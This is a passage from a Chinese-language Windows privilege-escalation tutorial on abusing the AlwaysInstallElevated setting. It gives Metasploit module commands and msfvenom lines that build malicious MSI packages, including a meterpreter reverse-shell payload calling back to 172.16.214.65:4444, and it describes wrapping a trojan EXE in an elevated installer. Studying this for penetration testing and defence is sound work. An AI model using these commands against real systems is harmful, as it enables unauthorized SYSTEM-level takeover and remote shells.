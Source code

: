 ![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210727165540.png)

### MSF

MSF 中可以使用 exploit/windows/local/always_install_elevated 模块，直接获取 SYSTEM 权限。

```
use exploit/windows/local/always_install_elevated
set session 1
run
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210727175000.png)

除了上面的操作外，还可以使用 msfvenom 生成 MSI 文件，从而以 SYSTEM 权限执行任意命令。

```
msfvenom -p windows/exec CMD=<命令> -f msi > calc.msi
```

或者以 SYSTEM 权限上线

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.214.65 lport=4444 –f msi -o shell.msi
```

### MSI Wrapper

MSI Wrapper 是一个操作简单直观的 MSI 安装包生成工具，我们可以使用该工具制作一个包含木马的 MSI 安装包。

选择自己要导入的 EXE 木马文件位置和导出 MSI 安装包位置。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210728090315.png)

设置运行时提升权限

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210728091810.png)

之后 Application Id 随便选一个，其他操作默认就行，然后将 MSI 文件拷贝到目标主机上

开启攻击主机的监听，双击 MSI 文件之后就可以看到回连的会话已经是 SYSTEM 权限了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210728092010.png)

# 0x03 计划任务

使用以下命令可以看到当前计算机的计划任务

```
schtasks /query /fo list /v
```

AccessChk 是微软官方提供的一款工具，因此往往不会引起杀软的告警，AccessChk 可用来进行一些系统或程序的高级查询、管理和故障排除工作。

AccessChk 下载地址：[https://download.sysinternals.com/files/AccessChk.zip](https://download.sysinternals.com/files/AccessChk.zip)
